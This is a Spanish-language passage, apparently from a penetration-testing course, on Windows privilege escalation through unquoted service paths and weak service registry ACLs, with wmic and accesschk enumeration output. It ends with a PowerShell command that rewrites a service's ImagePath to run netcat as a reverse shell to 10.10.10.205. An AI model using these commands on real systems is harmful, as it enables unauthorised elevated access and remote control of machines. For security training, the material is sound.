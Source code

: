 #### Buscando rutas de servicio no cotizadas

Podemos identificar rutas binarias de servicio no cotizadas utilizando el comando a continuación.

  Permisos débiles

```cmd-session
C:\htb> wmic service get name,displayname,pathname,startmode |findstr /i "auto" | findstr /i /v "c:\windows\\" | findstr /i /v """
GVFS.Service                                                                        GVFS.Service                              C:\Program Files\GVFS\GVFS.Service.exe                                                 Auto
System Explorer Service                                                             SystemExplorerHelpService                 C:\Program Files (x86)\System Explorer\service\SystemExplorerService64.exe             Auto
WindscribeService                                                                   WindscribeService                         C:\Program Files (x86)\Windscribe\WindscribeService.exe                                  Auto
```

---

## ACL de registro permisivo

También vale la pena buscar ACL de servicio débiles en el registro de Windows. Podemos hacer esto usando`accesschk`.

#### Comprobación de ACL de servicio débil en el registro

  Permisos débiles

```cmd-session
C:\htb> accesschk.exe /accepteula "mrb3n" -kvuqsw hklm\System\CurrentControlSet\services

Accesschk v6.13 - Reports effective permissions for securable objects
Copyright ⌐ 2006-2020 Mark Russinovich
Sysinternals - www.sysinternals.com

RW HKLM\System\CurrentControlSet\services\ModelManagerService
        KEY_ALL_ACCESS

<SNIP> 
```

#### Cambiar ImagePath con PowerShell

Podemos abusar de esto usando el cmdlet de PowerShell`Set-ItemProperty`para cambiar el`ImagePath`valor, usando un comando como:

  Permisos débiles

```powershell-session
PS C:\htb> Set-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Services\ModelManagerService -Name "ImagePath" -Value "C:\Users\john\Downloads\nc.exe -e cmd.exe 10.10.10.205 443"
```

---